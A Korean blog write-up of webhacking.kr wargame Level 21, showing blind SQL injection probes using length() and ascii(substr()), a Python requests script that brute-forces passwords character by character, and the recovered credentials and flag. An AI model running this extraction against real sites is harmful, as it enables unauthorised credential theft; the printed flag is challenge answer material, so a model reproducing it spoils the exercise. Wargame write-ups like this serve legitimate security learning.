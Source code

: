 ```yaml
---
layout: post
title:  "[Web.kr]Level 21"
subtitle:   "[Web.kr]Level 21"
categories: Webhacking.kr(Old)
tags:
- Wargame
- webhacking.kr(Old)
- Write-up
---
```


<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144412211.png" width="400px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144840924.png" width="400px">

Blind SQL Injection이라고 되어 있다. 주소창을 보니 no, id, pw값을 입력받고 있다.

no에 숫자들을 입력해 보니 True라고 나오는 숫자는 1과 2뿐이다. 따라서 id값은 1과 2이다.

이제 각 id에 맞는 id와 pw를 찾아내야 한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145056313.png" width="300px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145219268.png" width="300px">

`1 and length(id)=5` 를 이용하여 id의 길이가 5인 것과, pw의 길이가 5인 것을 알아 냈다. 똑같은 방법으로 no가 2인 id와 pw의 길이도 알아내면 id는 5, pw는 19의 길이를 가지고 있다.

|  no  |  id   |   pw   |
| :--: | :---: | :----: |
|  1   | ? (5) | ? (5)  |
|  2   | ? (5) | ? (19) |



이제 아이디를 찾아보자. 보통 5의 길이를 가진 id는 'admin'이 있다. 이를 예측해보고 no=1의 id를 substr()를 이용하여 찾아보자.

`1 and ascii(substr(id, 1, 1))=97` 

위 명령어는 no가 1이고, id의 첫번째 인덱스에서 1byte가 ascii코드로 97('a')인지 확인하는 명령어이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145852871.png" width="300px">

생각처럼 no=1의 id는 'admin'이 아닌것 같다. 하지만 같은 방식으로 no=2의 id를 비교해보니 'admin'이 맞았다.

|  no  |    id     |   pw   |
| :--: | :-------: | :----: |
|  1   |   ? (5)   | ? (5)  |
|  2   | admin (5) | ? (19) |

이렇게 하나하나씩 다 비교해 보는 것은 매우 힘든일이다. 한글자 마다 ascii코드 33부터 136까지 다 비교해봐야 하기 때문이다. 

```python
import requests

url = 'http://webhacking.kr/challenge/bonus/bonus-1/index.php?'
cookie={'PHPSESSID':'b82bba458acf3b6fd70126be82c02e2f'}
pw = ''

# no=1
for i in range(1, 6):
    for j in range(33, 137):
        query = "no=1 and ascii(substr(pw,"+str(i)+" ,1))="+str(j)
        payload = url+query
        print("Password Parsing : "+pw+chr(j))
        res = requests.get(payload, cookies=cookie)
        if((res.text).find("True")>0):
            pw += chr(j)
            print("Find PW : "+pw)
            break

print("[+]Finish Password Parsing...")
print("Password : "+pw)
```

힘든건 컴퓨터한테 시키면 된다.

|  no  |    id     |            pw            |
| :--: | :-------: | :----------------------: |
|  1   |   ? (5)   |        guest (5)         |
|  2   | admin (5) | blindsqlinjectionkk (19) |

no=1의 pw를 찾다보니 비밀번호 한자리씩 파싱하는데 시간이 1-2초씩 소비하였다. 5글자 알아내는대도 5분정도 걸린것 같다. no=2의 pw는 소문자 일것으로 추측하고 경우의 수를 줄여 파싱을 진행하였다. (시간은 금이니까 😏)

##### **flag = blindsqlinjectionkk**

